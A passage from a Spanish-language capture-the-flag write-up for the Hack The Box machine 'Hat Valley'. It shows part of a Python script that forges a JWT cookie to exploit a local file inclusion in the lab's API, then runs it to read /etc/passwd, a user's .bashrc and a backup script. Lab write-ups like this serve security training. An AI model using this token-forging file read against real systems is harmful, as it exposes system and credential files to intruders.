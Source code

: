 ```python
	return token

#Uso de la función anteriormente definida y petición GET con la cookie creada para establecer el LFI
token = makeCookieJWT(file)
target = "http://hat-valley.htb/api/all-leave"
cookie = {"token":token}
request = requests.get(target, cookies=cookie)

#Descarga de archivo
try:
	if sys.argv[2] == '-d':
		with open(file.split("/")[-1].strip(),'wb') as f:
			f.write(request.content)

except:
    if request.text == "Failed to retrieve leave requests":
        print("\nNo se encontro el archivo\n")
        exit(1)
    else:
        print(request.text.strip())
```

- Usando esta script podemos hacer búsquedas típicas de LFI.

- Enumeramos usuarios:

```bash
$python3 jwtLFI.py /etc/passwd | grep "sh$"
```

```js
root:x:0:0:root:/root:/bin/bash
bean:x:1001:1001:,,,:/home/bean:/bin/bash
christine:x:1002:1002:,,,:/home/christine:/bin/bash
```

- Buscamos en el directorio del usuario "bean" su archivo `".bashrc"` para leer su contenido:

```bash
$python3 jwtLFI.py /home/bean/.bashrc
```

- Vemos en una parte de este archivo lo siguiente:

```js
# custom
alias backup_home='/bin/bash /home/bean/Documents/backup_home.sh'
```

- Parece ser que el usuario "bean" estableció un comando el cual hace una copia de seguridad de todo su home usando la script "backup_home.sh", accedemos a este archivo y leemos su contenido:

```bash
$python3 jwtLFI.py /home/bean/Documents/backup_home.sh
```
